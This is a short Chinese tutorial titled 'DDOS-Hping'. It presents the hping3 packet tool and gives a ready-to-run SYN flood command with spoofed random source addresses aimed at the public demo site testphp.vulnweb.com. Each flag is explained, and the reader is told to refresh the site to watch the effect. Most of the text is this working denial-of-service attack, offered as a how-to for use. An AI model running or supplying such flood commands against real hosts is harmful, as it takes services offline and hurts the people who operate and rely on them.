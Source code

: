 # DDOS-Hping

---

Hping是一个命令行下使用的TCP/IP数据包组装/分析工具，其命令模式很像Unix下的ping命令，但是它不是只能发送ICMP回应请求，它还可以支持TCP、UDP、ICMP和RAW-IP协议，它有一个路由跟踪模式，能够在两个相互包含的通道之间传送文件。Hping常被用于检测网络和主机，其功能非常强大，可在多种操作系统下运行，如Linux，FreeBSD，NetBSD，OpenBSD，Solaris，MacOs X，Windows。

寻找测试网站网站：http://testphp.vulnweb.com/login.php

hping3 --help

hping3小工具进行DDos攻击

hping3 -c 1200 -d 130 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com

-c(count) 表示要发送的数据包的数量

-d(data size) 发送数据包的大小

-S（SYN）SYN数据包

-w 表示TCP的窗口大小

-p 端口

–flood 洪水攻击模式

–rand-source 表示设定随机的源地址

testphp.vulnweb.com 需要攻击的网站域名

3.5 测试进行中。。。。。。。。

3.6 如下图所示，刷新被测试的网站，查看测试效果。

3.7 停止测试，查看效果，如下图所示。

命令：Ctrl+c
